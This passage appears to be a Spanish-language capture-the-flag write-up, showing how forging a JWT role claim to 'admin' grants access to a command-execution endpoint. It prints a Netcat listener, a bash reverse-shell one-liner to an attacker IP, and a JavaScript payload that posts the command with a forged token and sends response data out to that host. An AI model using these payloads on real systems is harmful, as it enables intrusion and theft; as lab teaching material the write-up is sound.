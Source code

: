 En la respuesta, veremos que no tenemos acceso, pues dicho endpoint solo está permitido para el **admin**.

![](<../assets/images/posts/2025-23-16-tokenofhate/Pasted image 20250315192659.png>)

Si nos dirigimos a [jwt.io](https://jwt.io/) y pegamos nuestro token, veremos en la figura el campo **role**, por lo que lo modificaremos a **admin**.

![](<../assets/images/posts/2025-23-16-tokenofhate/Pasted image 20250315192837.png>)

Veremos que en el respuesta de la petición, nos devuelve el output del comando.

![](<../assets/images/posts/2025-23-16-tokenofhate/Pasted image 20250315192947.png>)

Además, veremos como recibimos la traza **ICMP** de la máquina víctima.

![](<../assets/images/posts/2025-23-16-tokenofhate/Pasted image 20250315193041.png>)

A continuación, lo que haremos será ponernos en escucha con **Netcat** (`nc -nlvp 443`) y enviarnos una **Reverse Shell** gracias al típico one liner de bash (`bash -c 'bash -i >& /dev/tcp/192.168.26.10/443 0>&1'").

```js
x=new XMLHttpRequest;
x.onload=function(){new Image().src=`http://192.168.26.10/?resText=${btoa(this.responseText)}`};
let data = JSON.stringify({"command": "bash -c 'bash -i >& /dev/tcp/192.168.26.10/443 0>&1'", "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ikpvc2UiLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3NDIwNjMxMDEsImV4cCI6MTc0MjA2NjcwMX0._wQ0-N-vcor-8oxK3YElOZ9J8AB1GINxo_qfK0aXE8k"})
x.open("POST","http://localhost:3000/command");
x.setRequestHeader("Content-Type", "application/json");
x.send(data);
```

